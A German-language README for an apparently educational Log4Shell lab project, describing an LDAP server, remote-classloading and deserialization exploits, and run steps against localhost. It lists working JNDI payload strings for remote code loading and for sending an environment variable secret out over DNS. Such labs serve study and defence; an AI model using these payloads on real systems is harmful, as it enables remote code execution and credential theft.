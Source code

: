 # Übersicht

Die Komponenten sind:

- log4shell: Loggt eine Logzeile mit log4j.
- ldap: Ein simpler LDAP-Server.
- remote: Der Exploit, der für remote Classloading verwendet wird.
- serialization: Der Exploit, der ein serialisiertes Objekt für den Exploit erstellt.
  - Um dies Auszunutzen muss z.B: `commons-collections:commons-collections:3.1` im Classpath sein.
- serve_exploit.sh: Kompiliert das remote-Projekt und startet einen Server, der das Classfile ausliefert.
- listen_to_udp.sh: Öffnet ein UDP-Port und gibt eine Antwort.

In `build.gradle` von `log4shell` wird `Dcom.sun.jndi.ldap.object.trustURLCodebase=true` gesetzt, damit
der Remote-Classloading Teil funktioniert. Es ist natürlich interessant die Beispiele einfach mal ohne diesen
Parameter durchzuspielen.

#  Vorbereitung

- `gradle ldap:run`, um den LDAP-Server zu starten.
- `./serve_exploit.sh`, um den Exploit zu kompilieren und den Server zu starten, der den Code ausliefert.
- `./listen_to_udp.py`, um Daten auf UDP Port 1053 anzunehmen.

# Testen des Exploits

Rufe

```
gradle log4shell:run --args="<logstring>" 
```

mit den folgenden Werten für `logstring` auf:

- `\${jndi:ldap://127.0.0.1:1389/dc=javaNamingReference}` für den Remote Code Exploit.
- `\${jndi:ldap://127.0.0.1:1389/dc=javaSerializedData}` für den Exploit, der Klassen im Classpath verwendet.
- `\${jndi:dns://127.0.0.1:1053/\${env:MY_PASSWORD}}` um Daten via DNS zu übertragen. Dabei sollte `MY_PASSWORD` vorher
  entsprechend gesetzt werden.
